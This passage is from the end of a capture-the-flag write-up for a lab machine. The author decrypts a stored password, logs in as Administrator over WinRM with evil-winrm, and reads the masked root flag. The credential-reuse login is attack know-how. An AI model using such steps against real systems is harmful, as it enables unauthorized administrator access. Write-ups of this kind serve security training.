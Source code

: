 We retrieve the following password.

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ python3 decrypt.py
!R3m0te!
{% endhighlight %}

### Getting a shell

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ evil-winrm -i 10.10.10.180 -u Administrator -p '!R3m0te!'

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
ef0a15**************************
{% endhighlight %}

We finish the box by grabbing the root flag and acquiring the highest privileges on the web server. :)
